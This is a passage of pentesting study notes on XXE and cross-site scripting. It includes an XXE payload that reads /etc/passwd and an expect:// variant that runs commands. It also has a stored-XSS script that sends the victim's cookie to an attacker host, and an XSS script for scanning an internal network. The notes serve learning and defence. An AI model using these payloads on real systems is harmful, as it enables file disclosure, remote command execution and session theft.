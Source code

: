 ```XML
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

- - if the php expect module is loaded, we can even get RCE using this payload

```XML
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://id (or another command)">]>
<root>&xxe;</root>
```

- - useful tools and links:
        \- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection
- <ins>XSS (cross-site scripting):</ins>
    
    - caused by improper user input sanitation.
        
    - XSS is possible in Javascript, VBScript, Flash and CSS
        
    - There are different types of XSS attacks:
        
        - **Stored XSS**: most dangerous type of XSS attack.
            The attacker inserts malicious payload into the website's source code, so that every time a client visits the website, the malicious script is executed.
            A common payload to steal the cookie of the victim is this:
            `<script>window.location='http://attacker/?cookie='+document.cookie</script>`
        - **Reflected XSS:** most common type of XSS attack.
            The attacker tricks a victim into clicking a URL with a malicious payload. The website includes the payload in response back to the user, and it's executed. A typical payload would be
            `http://example.com/search?keyword=<script>...</script>`
        - **DOM-Based XSS:**
            similar to Reflected XSS, but the payload is executed thanks to some vulnerable client side code (NOT modified by the attacker!) that modifies the DOM of the page.
    - With XSS you can do a million things, including cookie stealing, keylogging, webcam snapshot, phishing, port scanning etc.
        
        - how to IP and Port Scan with XSS: here's a simple example of a payload who scans all the ip addresses ranging from 192.168.0.0 to 192.168.0.255
            
            ```HTML
            <script>
             for (let i = 0; i < 256; i++) {
              let ip = '192.168.0.' + i
              // Creating an image element, if the resource can load, it logs to the link controlled by the attacker.
               // NOTE: this payload probably doesn't work
              let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=\"http:/attacker/' + ip + '\"">'
              document.body.innerHTML += code // This is adding the image element to the webpage
             }
            </script>
            ```
            
            Here's a payload for portscanning: https://github.com/aabeling/portscan
            
            Keep in mind that when doing this type of attack there are many factors that will effect results such as response times, firewall rules etc.
            